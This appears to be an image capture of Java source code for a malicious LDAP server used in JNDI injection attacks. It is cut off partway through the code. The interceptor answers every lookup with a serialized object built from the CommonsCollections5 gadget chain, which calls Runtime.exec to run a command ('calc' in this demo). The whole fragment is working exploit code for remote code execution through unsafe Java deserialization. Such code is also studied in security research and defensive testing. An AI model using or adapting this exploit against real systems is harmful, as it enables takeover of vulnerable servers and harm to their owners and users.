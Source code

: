 ```java
        ds.startListening();
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }


        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch ( Exception e1 ) {
                e1.printStackTrace();
            }
        }

        protected void sendResult ( InMemoryInterceptedSearchResult result, String base, Entry e ) throws Exception {
            URL turl = new URL(this.codebase, this.codebase.getRef().replace('.', '/').concat(".class"));
            System.out.println("Send LDAP reference result for " + base + " redirecting to " + turl);
            e.addAttribute("javaClassName", "foo");
            String cbstring = this.codebase.toString();
            int refPos = cbstring.indexOf('#');
            if ( refPos > 0 ) {
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData",CommonsCollections5());

            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }

    private static byte[] CommonsCollections5() throws Exception{
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",new Class[]{}}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[]{}}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer=new ChainedTransformer(transformers);
        Map map=new HashMap();
        Map lazyMap=LazyMap.decorate(map,chainedTransformer);
        TiedMapEntry tiedMapEntry=new TiedMapEntry(lazyMap,"test");
        BadAttributeValueExpException badAttributeValueExpException=new BadAttributeValueExpException(null);
        Field field=badAttributeValueExpException.getClass().getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException,tiedMapEntry);

```